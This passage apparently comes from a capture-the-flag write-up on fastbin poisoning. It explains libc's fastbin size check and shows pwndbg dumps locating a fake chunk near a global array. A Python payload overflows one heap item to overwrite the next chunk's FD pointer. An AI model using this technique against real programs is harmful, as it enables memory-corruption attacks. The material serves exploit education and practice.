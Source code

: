 Now our fastbin contains this: 

```
0x20: 0x5555557584e0 ◂— 0x0 # the just free'ed item
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
```

Since **FD** needs to point to a valid fastbin chunk that have the size 0x20, this will put some limitations to what we can write, the validation check done by `libc` is as follow:

- if a chunk `A` is in fastbin list of size `X`, then `A->size >> 4 - 2` needs to be equal to `X`

This looks like a hard condition to fulfill, but it's pretty easy to find such a valid fake chunk. Since the `size` field is at offset `8` of the struct, we need to find an address `A` such as the data at `A + 8` contains a valid chunk size.

powered by `gdb` I did found a valid address that fullfill that condition. And guess what? it's only 3 bytes far from the global `items_list` array

```
pwndbg> x/5gx 0x55555575602d
0x55555575602d:	0xaaab0978e0000000	0x000000000000002a
0x55555575603d:	0x5555758430000000	0x55557584c0000055
0x55555575604d:	0x5555758530000055
pwndbg> x/10gx 0x5555557584c0 
0x5555557584c0:	0x0041414141414141	0x0000000000000021 <- item 6
0x5555557584d0:	0x00002aaaab097b78	0x00002aaaab097b78
0x5555557584e0:	0x0000000000000000	0x0000000000000021 <- item 7 (0x5555557584f0 is what we want to corrupt)
0x5555557584f0:	0x0000000000000000	0x00002aaaab097ba8
0x555555758500:	0x0000000000000000	0x0000000000000021
```

With that we can edit the 6'th item to corrupt the **FD** of the 7th item.

```python
fake_fast_chunk = pie_base + 0x20202d
payload = "B" * 16          # Fill current chunk
payload += p64(0)           # Prev size
payload += p64(0x21)        # Chunk size (keep the old one)
payload += p64(fake_fast_chunk)  # FD pointer
edit_item(6, payload)
```

```
pwndbg> fastbins
0x20: 0x5555557584e0 —▸ 0x55555575602d (our fake chunk) ◂— 0x5555758430000000
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
pwndbg> x/10gx 0x5555557584c0
0x5555557584c0:	0x0000000000000000	0x0000000000000021 <- item 6
0x5555557584d0:	0x4242424242424242	0x4242424242424242
0x5555557584e0:	0x0000000000000000	0x0000000000000021 <- item 7
0x5555557584f0:	0x000055555575602d	0x00002aaaab097b00
0x555555758500:	0x0000000000000000	0x0000000000000021
```
